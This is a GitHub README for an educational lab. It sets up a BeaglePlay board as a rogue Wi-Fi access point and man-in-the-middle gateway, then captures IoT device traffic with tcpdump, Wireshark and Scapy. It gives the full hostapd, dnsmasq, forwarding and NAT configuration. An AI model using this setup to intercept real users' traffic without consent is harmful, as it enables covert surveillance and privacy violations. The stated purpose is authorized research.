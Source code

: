 # BeaglePlay MITM Gateway for IoT Device Surveillance

An educational, research‑focused lab setup that uses a BeaglePlay board as a rogue Wi‑Fi gateway to perform a Man‑In‑The‑Middle (MITM) interception of IoT device traffic. All captured packets are sent to a Kali Linux “attacker” machine for inspection, analysis, and storage.

**Disclaimer:** Only use this in a controlled environment with permission. Unauthorized interception is illegal.

## Project Overview

1. Gateway

   * Hardware: BeaglePlay
   * Role: Fake Wi‑Fi AP that all victim devices connect through

2. Victim Devices

   * Examples: smartwatches, smart bulbs, smartphones, Linux PCs

3. Attacker Machine

   * OS: Kali Linux
   * Tools: tcpdump, Wireshark, ettercap, Scapy

![MITM Setup](https://github.com/user-attachments/assets/09d35d74-8b38-482b-9ede-602b9229d043)

1. Flash Debian onto BeaglePlay

---

1. Download the latest Debian image
   – [BeaglePlay Debian images](https://beagleboard.org/latest-images)

2. Flash to SD card

   ```bash
   sudo dd if=debian-image.img of=/dev/sdX bs=4M status=progress
   ```

   (Or use balenaEtcher.)

3. Insert SD, power on, then connect via:

   * USB Ethernet gadget (default 192.168.7.2)
   * Ethernet cable
   * Serial console (`screen /dev/ttyACM0 115200`)

4. Login credentials:

   ```bash
   username: debian
   password: temppwd
   ```

5. Configure BeaglePlay as Wi‑Fi AP

---

### 2.1 Install packages

```bash
sudo apt update
sudo apt install hostapd dnsmasq iptables
sudo systemctl stop hostapd dnsmasq
```

### 2.2 hostapd setup

Create `/etc/hostapd/hostapd.conf`:

```ini
interface=wlan0
driver=nl80211
ssid=MITM_AP
hw_mode=g
channel=6
auth_algs=1
wpa=2
wpa_passphrase=mitmpassword
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
```

Point default config at it:

```bash
echo 'DAEMON_CONF="/etc/hostapd/hostapd.conf"' \
  | sudo tee /etc/default/hostapd
```

### 2.3 Static IP for wlan0

Append to `/etc/dhcpcd.conf`:

```ini
interface wlan0
  static ip_address=192.168.4.1/24
  nohook wpa_supplicant
```

### 2.4 DHCP & DNS via dnsmasq

```bash
sudo mv /etc/dnsmasq.conf /etc/dnsmasq.conf.orig
cat <<EOF | sudo tee /etc/dnsmasq.conf
interface=wlan0
dhcp-range=192.168.4.10,192.168.4.50,255.255.255.0,24h
EOF
```

### 2.5 Enable IP forwarding

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo sed -i 's/#net.ipv4.ip_forward=1/net.ipv4.ip_forward=1/' /etc/sysctl.conf
sudo sysctl -p
```

### 2.6 NAT with iptables

```bash
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables-save | sudo tee /etc/iptables.ipv4.nat
```

To restore at boot, add to `/etc/rc.local` before `exit 0`:

```bash
iptables-restore < /etc/iptables.ipv4.nat
```

### 2.7 Start services

```bash
sudo systemctl unmask hostapd
sudo systemctl enable hostapd
sudo systemctl restart hostapd dnsmasq
```

> The AP is now live as SSID MITM\_AP with password mitmpassword.

3. Victim Device Setup

---

1. Power on any Wi‑Fi‑enabled IoT or Linux device.

2. Connect to SSID MITM\_AP (password mitmpassword).

3. All traffic goes through BeaglePlay for interception.

4. Attacker Machine (Kali Linux)

---

Connect Kali to BeaglePlay via Ethernet or USB‑Ethernet.

### 4.1 Capture traffic

```bash
sudo tcpdump -i eth0 -w mitm_traffic.pcap
```

Or launch Wireshark, capturing on `eth0` or `usb0`.

### 4.2 Analyze traffic

Common filters:

* HTTP → `http`
* DNS → `udp.port == 53`
* MQTT → `tcp.port == 1883`
* TLS → `tls`

5. Data Analysis

---

1. Export the `.pcap` file.
2. Parse with Python + Scapy:

```python
from scapy.all import *
packets = rdpcap('mitm_traffic.pcap')
for pkt in packets:
    if pkt.haslayer(IP):
        print(pkt[IP].src, '→', pkt[IP].dst)
```

## Repository Structure

```
beagleplay-mitm-gateway/
├── configs/
│   ├── hostapd.conf
│   ├── dnsmasq.conf
│   ├── dhcpcd.conf
│   └── iptables.ipv4.nat
├── scripts/
│   ├── setup_ap.sh
│   └── sniff_packets.sh
├── analysis/
│   └── analyze_pcap.py
├── README.md
└── LICENSE
```

## Legal Disclaimer

This setup is strictly for **authorized educational** or **research** use. Any unauthorized interception of traffic is illegal and may carry severe penalties.

## Authors & Contact

* **Sanyam Sankhala** 
* 📧 [sanyamsankhala13@gmail.com](mailto:sanyamsankhala13@gmail.com)
* 📍 VIT Chennai
